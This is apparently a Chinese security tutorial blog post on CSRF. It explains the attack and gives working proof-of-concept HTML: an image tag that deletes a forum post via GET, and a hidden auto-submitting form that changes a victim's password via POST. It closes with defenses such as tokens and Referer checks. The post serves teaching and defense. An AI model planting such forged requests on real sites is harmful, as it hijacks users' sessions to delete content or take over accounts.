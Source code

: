 +++
date = "2016-06-28T09:21:34+08:00"
description = ""
draft = false
tags = ["csrf"]
title = "CSRF漏洞"
topics = ["Pentest"]

+++

### 0x00 概念
当你登陆某个网站时，通常浏览器与网站都会形成一个会话，在会话没有结束时你可以执行发表文章、发邮件、删除文章等操作，若会话结束，你再操作的话会提示你会话已经结束，请重新登陆。  

CSRF就是：攻击者通过一些技术手段欺骗用户的<font color="FF0000">浏览器</font>去<font color="FF0000">访问</font>一个自己曾<font color="FF0000">认证过</font>的网站并<font color="FF0000">执行某些操作</font>。也可以说CSRF就是黑客利用受害者的Cookie骗取服务器的信任从而执行某些操作

### 0x01 利用
* 利用条件
    * 攻击者可以得知url的所有参数项并了解其含义
    * 诱导用户访问构造好的POC

* 利用地方
    * 操作是有意义的(比如:修改密码等)
    * 验证过于简单(参数固定、我们可以设置参数)

### 0x02 GET型CSRF攻击
```
若有论坛www.aa.com，论坛删除文章的操作是请求类似
http://www.aa.com/opt.php?id=135&act=del&name=Tom的链接
```
```
有用户A，他登陆了论坛，且有篇文章id为251，那么他的浏览器此时已经取得了论坛的信任
```
```
此时有hacker用户B，他构造了一个html为b.html，b.html内容如下：
<html>
<head>
    <title>test</title>
</head>
<body>
    <img src="http://www.aa.com/opt.php?id=251&act=del&name=A" />
</body>
</html>
将b.html放在他自己搭建的网站上，网址为http://www.bb.com/b.html
```
```
恶意用户B将链接http://www.bb.com/b.html通过qq发送给用户A，
诱使他访问，用户A一旦访问，他id为251的文章就会被删除
```

### 0x03 POST型CSRF攻击
若网站www.xx.com有让用户修改密码的功能，但验证过于简单，形如下图：
![csrf_post利用](/img/post/csrf_post.png)
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>aa</title>
</head>
<body>
    <form action="http://172.23.10.200/setpasswd.php" method="post">
        昵称：<input type="text" name="nickname" id="nickname" value="xxxxx">
        用户名：<input type="text" name="name" id="name" value="xiaoming">
        密码：<input type="passwd" name="passwd" id="passwd" value="">
        确认密码：<input type="rpasswd" name="rpasswd" id="rpasswd" value="">
        <input type="submit" name="button" value="提交">
    </form>
</body>
</html>
```
此时我们就可以构造自动提交表单的xxxx.html，内容如下：
```html
<html>
<head>
    <title>aa</title>
</head>
<body>
    <form name="csrf" action="http://172.23.10.200/setpasswd.php" method="post">
        <input type="hidden" name="passwd" id="passwd" value="666666">
        <input type="hidden" name="rpasswd" id="rpasswd" value="666666">
    </form>
    <script>
        setTimeout("document.csrf.submit()",100);
    </script>
</body>
</html>
```
然后将连接```http://www.bb.com/xxxx.html``` 发送给用户,诱使他点击链接,一旦他点击,则密码就会被修改

### 0x04 防御：
* 验证Referer
* 对于修改密码的表单可以要求输入原密码  
* 二次确认(如删除用户、转账等重要操作弹窗要求用户确认)
* Token认证  
    * GET操作请求：可以在Cookie中存储Token  
    * POST操作请求：可以在form表单中添加一个隐藏的input标签，value值为Token
    * 在header中添加自定义参数携带token
